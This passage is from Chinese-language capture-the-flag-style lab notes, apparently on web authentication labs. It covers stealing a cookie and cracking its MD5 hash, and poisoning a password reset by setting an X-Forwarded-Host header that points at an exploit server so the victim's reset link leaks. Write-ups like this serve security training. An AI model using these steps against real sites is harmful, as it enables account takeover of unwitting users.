 查看访问日志，成功拿到cookie

![image-20250506123845069](./img/image-20250506123845069.png)

md5可以解出来

![image-20250506123950291](./img/image-20250506123950291.png)

### 通过中间件进行密码重置中毒

用/户 `carlos` 会不小心点击他收到的电子邮件中的任何链接

`POST /forgot-password`数据包，支持 `X-Forwarded-Host` 头部，您可以使用它将动态生成的 reset 链接指向任意域。

指向自己的漏洞服务器

```
X-Forwarded-Host: exploit-0a81007603767cdb806c02c3015900e5.exploit-server.net
```

查看访问日志

![image-20250506133714667](./img/image-20250506133714667.png)

重置密码即可

### 通过密码更改暴力破解密码
